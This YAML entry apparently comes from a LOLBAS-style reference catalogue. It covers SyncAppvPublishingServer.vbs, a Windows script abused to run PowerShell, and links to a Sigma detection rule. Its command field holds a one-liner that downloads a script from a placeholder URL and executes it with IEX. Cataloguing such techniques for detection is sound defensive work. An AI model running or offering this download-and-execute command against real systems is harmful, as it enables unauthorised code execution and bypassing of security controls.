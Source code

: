 ```yaml
---
Name: Syncappvpublishingserver.vbs
Description: Script used related to app-v and publishing server
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
    Description: Inject PowerShell script code with the provided arguments
    Usecase: Use Powershell host invoked from vbs script
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.vbs
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/973e0666acffb8fd7ea8356449eb916381ab0cc6/rules/windows/process_creation/process_creation_syncappvpublishingserver_vbs_execute_powershell.yml
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
  - Link: https://twitter.com/subTee/status/855738126882316288
Acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
  - Person: Casey Smith
    Handle: '@subtee'
---
```


